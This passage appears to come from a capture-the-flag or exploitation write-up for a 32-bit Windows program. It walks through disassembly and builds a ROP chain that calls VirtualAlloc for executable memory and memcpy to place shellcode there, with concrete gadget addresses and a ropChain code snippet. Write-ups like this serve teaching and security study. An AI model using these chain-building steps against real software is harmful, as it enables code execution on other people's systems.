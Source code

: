 ```
                 20 40 00
        004011da 8b 4d 14        MOV        ECX,dword ptr [EBP + param_4]
        004011dd 89 01           MOV        dword ptr [ECX],EAX
        004011df 8b 55 14        MOV        EDX,dword ptr [EBP + param_4]
        004011e2 8b 02           MOV        EAX,dword ptr [EDX]
        004011e4 5d              POP        EBP
        004011e5 c3              RET
```

Now for Virtual Alloc, there are four arguments we will provide to it. Now one thing we see is that only three of the arguments are taken from the stam. There is one argument `0x3000` that is hard coded in. However our arguments that are used start `0x8` bytes after the start of the stack, so we will need to have a placeholder value there (the other `0x4` bytes will be taken up by a gadget, which will be the return address). For the other three arguments, we have to designate the size `0x400`, the permissions to be `rwx` (`0x40`), and the address in memory to write a ptr to the newly allocated space.

After that, we will need a gadget to pop the values off of our rop chain, so it doesn't crash. For this we can use the gadget at `0x40199e` to pop 4 values off of the stack.

```
                             LAB_0040199e                                    XREF[1]:     00401992(j)  
        0040199e 5f              POP        EDI
        0040199f 5e              POP        ESI
        004019a0 5b              POP        EBX
        004019a1 5d              POP        EBP
        004019a2 c3              RET
```

We can just add this right after the virtualAlloc call, and it will clean up the ROP chain for us.

So our rop chain will have this added to it:
```
ropChain += p32(virtualAlloc)

ropChain += p32(pop4)

ropChain += p32(0x31313131)

ropChain += p32(0x400)

ropChain += p32(0x40)

ropChain += p32(ropStart + 0x28)
```

#### Exploitation - Memcpy

So now that we have allocated the memory to write our shellcode, the next step is to write the shellcode to it using a `memcpy` winapi, which we can find at `0x4011f0`:

```
        004011f0 55              PUSH       EBP
        004011f1 8b ec           MOV        EBP,ESP
        004011f3 8b 45 10        MOV        EAX,dword ptr [EBP + param_3]
        004011f6 50              PUSH       EAX
        004011f7 8b 4d 0c        MOV        ECX,dword ptr [EBP + param_2]
        004011fa 51              PUSH       ECX
        004011fb 8b 55 08        MOV        EDX,dword ptr [EBP + param_1]
        004011fe 52              PUSH       EDX
        004011ff e8 80 04        CALL       memcpy                                           void * memcpy(void * _Dst, void
                 00 00
        00401204 83 c4 0c        ADD        ESP,0xc
        00401207 8b 45 08        MOV        EAX,dword ptr [EBP + param_1]
        0040120a 5d              POP        EBP
```